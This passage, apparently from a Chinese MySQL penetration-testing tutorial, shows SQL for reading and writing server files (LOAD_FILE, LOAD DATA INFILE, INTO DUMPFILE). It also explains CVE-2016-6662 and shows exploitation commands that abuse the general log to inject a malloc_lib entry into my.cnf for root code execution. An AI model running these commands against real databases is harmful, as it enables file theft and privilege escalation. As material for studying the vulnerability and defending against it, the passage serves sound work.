 ```
ERROR 1045 (28000): Access denied for user
```

<a class="reference-link" name="2.%20%E8%AF%BB%E5%8F%96%E6%96%87%E4%BB%B6"></a>**2. 读取文件**

```
SELECT LOAD_FILE('/var/lib/mysql-files/aaa') AS Result;
```

```
create database test;
CREATE TABLE test ( id TEXT, content TEXT);
load data infile "/var/lib/mysql-files/aaa" into table test.test FIELDS TERMINATED BY '\n\r';
```

<a class="reference-link" name="3.%20%E5%86%99%E5%85%A5%E6%96%87%E4%BB%B6"></a>**3. 写入文件**

```
select group_concat(id) from test INTO DUMPFILE "/var/lib/mysql-files/aaaa";
```

[![](https://p0.ssl.qhimg.com/t011838a76284acc148.png)](https://p0.ssl.qhimg.com/t011838a76284acc148.png)

### <a class="reference-link" name="0x4%20Mysql%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87%E6%BC%8F%E6%B4%9E%20%EF%BC%88CVE-2016-6662%EF%BC%89"></a>0x4 Mysql远程代码执行/权限提升漏洞 （CVE-2016-6662）

> 版本范围：MySQL &lt;= 5.7.14 MySQL &lt;= 5.6.32 MySQL &lt;= 5.5.51， 远程代码执行/ 提权 (0day)，包括mysql的分支版本MariaDB，PerconaDB

利用条件要具有FILE和SELECT权限的mysql的用户且能够访问日志功能（通常情况下只有MYSQL的管理员用户具有）

<a class="reference-link" name="1.%20%E6%BC%8F%E6%B4%9E%E5%8E%9F%E5%9B%A0"></a>1. 漏洞原因
- MySQL的默认安装包里自带了一个mysqld_safe的脚本用来启动mysql的服务进程
- 该进程能够在启动mysql server之前预加载共享库文件，通过参数 –malloc-lib = LIB /usr/local/mysql/bin/mysqld_safe:
- 一旦攻击者可以注入恶意库文件在my.cnf文件中，即可在mysql服务重启时以root权限执行预加载的任意共享库中的任意代码
<a class="reference-link" name="2.%20%E5%88%A9%E7%94%A8%E5%9C%BA%E6%99%AF"></a>**2. 利用场景**
- 在MYSQL已存在的具有弱权限或者权限设置不安全的配置文件（mysql用户可写）里注入恶意代码
- 在MYSQL的data目录里（mysql用户默认可写）创建一个新的配置文件my.cnf，并注入恶意代码
<a class="reference-link" name="3.%20%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>**3. 漏洞利用**

首先通过sql查询创建配置文件

```
mysql&gt; set global general_log_file = '/usr/local/mysql/data/my.cnf';
mysql&gt; set global general_log = on;
mysql&gt; select '
    '&gt; 
    '&gt; ; injected config entry
    '&gt; 
    '&gt; [mysqld]
    '&gt; malloc_lib=/tmp/exploit.so
    '&gt; 
    '&gt; [separator]
    '&gt; 
    '&gt; ';
1 row in set (0.00 sec)
mysql&gt; set global general_log = off;
```
